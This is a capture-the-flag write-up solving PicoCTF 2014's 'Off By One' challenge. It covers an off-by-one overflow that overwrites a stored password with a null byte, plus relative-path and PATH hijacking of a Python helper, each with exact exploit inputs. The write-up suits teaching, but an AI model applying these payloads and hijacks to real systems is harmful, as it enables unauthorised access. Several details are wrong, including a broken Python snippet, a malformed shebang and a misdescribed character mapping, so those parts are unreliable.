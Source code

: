 ###Off By One

This challenge comes from PicoCTF 2014. We are given a vulnerable C code in the directory ```/home/obo/```. Our goal is to cat flag.txt, which is placed in the same directory.

The obvious mistake that the programmer has made is buffer overflow. Instead of using ```<```, the programmer used ```<=```, reading one additional index.
This vulnerability comes in handy for bypassing the password check. For now, let's talk about the first half of the ```main()```.
```
generate_hex_table();
...
printf("New password: ");
  fflush(stdout);
  read_password(stdin, new_password, sizeof(new_password));
  for (i = 0; i <= strlen(new_password); ++i) {
    int index = hex_table[(unsigned char) new_password[i]];
    if (index == -1) {
      printf("Invalid character: %c\n", new_password[i]);
      exit(1);
    }
    digits[index] = 1;
  }

  for (i = 0; i <= 16; ++i) {
    if (digits[i] == 0) {
      printf("Password is not complex enough: %d\n", i);
      return 1;
    }
  }
```
generate_hex_table() looks as follows
```
void generate_hex_table(void) {
  int i;
  for (i = 0; i <= 256; ++i) {
    hex_table[i] = -1;
  }

  for (i = 0; i <= 10; ++i) {
    hex_table['0' + i] = i;
  }

  for (i = 0; i <= 6; ++i) {
    hex_table['a' + i] = 10 + i;
  }

  for (i = 0; i <= 6; ++i) {
    hex_table['A' + i] = 10 + i;
  }

  // I don't know why, but I was getting errors, and this fixes it.
  hex_table[0] = 0;
}
```
What ```generate_hex_table()``` is supposed to do is to generate an int array that is used for password checking. First, all the array elements (including one-unit oveflow) is set to -1 to indicate invalid character.
Then, we see that the ASCII digits 0-9 as well as : that comes after ASCII 9) is set to 0 to 10 respectively, followed by ASCII lowercase alphabets
a to g set to 10 through to 16, followed by ASCII uppercase alphabets A to G set to 0 through to 16. 
The first for-loop of the main() checks whether each character of the string we input falls within these characters, and set digits[] array using 
```index = hex_table[(unsigned char) new_password[i]]```. To pass the second for-loop, all of the elements of digits[] must be set to 1.
So we know that the variable index has to be from 0 o 15. This is easy; we just give all the digits, as well as the alphabets a to f.
The second half of the program is password checking. 
```
  printf("Confirm old password: ");
  fflush(stdout);
  read_password(stdin, confirm_password, sizeof(confirm_password));
  if (strcmp(confirm_password, password) != 0) {
    printf("Old password is incorrect.\n");
    return 1;
  }
```
```confirm_password``` varible is the string we feed to the program. This is checked by the password stored and read from the password file. 
Now, there is no way we can guess or disclose the password: in fact, we don't have to do it. This is where the buffer overflow vulnerability comes in.
It turns out that in the stack, the variable stored after the int digits array is password. And when index = 16, we can set digits[16] = 1, which is actually this password string.
1 is an integer value (4 bytes), in hexadecimal equal to \x01\x00\x00\x00 (reversed for little-endian): this is handy because ASCII 0 follows \x01, which can be recognised as the null character
for this string! Note that to set index[16] = 1, we can supply g as one of the characters in the password, and this is exactly the <= mistake in the generate_hex_table() allows us to do.

Another mistake we can exploit is that the programmer called python to change the password rather than do it within the C code. 
There are a few ways we can exploit this.

-------------1--------------

We can go to the root directory and from there execute ```obo```. It is important to know that ```set_password.py``` is called relative to the program. Say we make a python file in the home directory with
identical name but has the following content

```
print open("cat /home/obo/flag.txt").read()
```
Then this would be the file executed by the program. So, in the root directory, enter the following in the command line
```
python -c 'print "abcdefg123456789\n\x01" ' | /home/obo/obo
```
Note that we have get a help from Python because we want to pass integer (or hex) 1, not 1 as ASCII character. 

-------------2--------------

In the home directory, we can make a bash script named ```python``` with the following code inside
```
#!bin/sh
cat /home/obo/flag.txt
```
Make this executable and modify the $PATH variable
```
chmod +x python
export PATH=/home_users/pico*****:$PATH
```
We set the path as above because of the precedence - from left to right.

Also, in order to use the actual python command, we can call it as python2. So we just have to type in the command line
```
python2 -c "print 'abcdefg123456789\n\x01'"| /home/obo/obo
```

the flag is  ```watch_your_bounds```











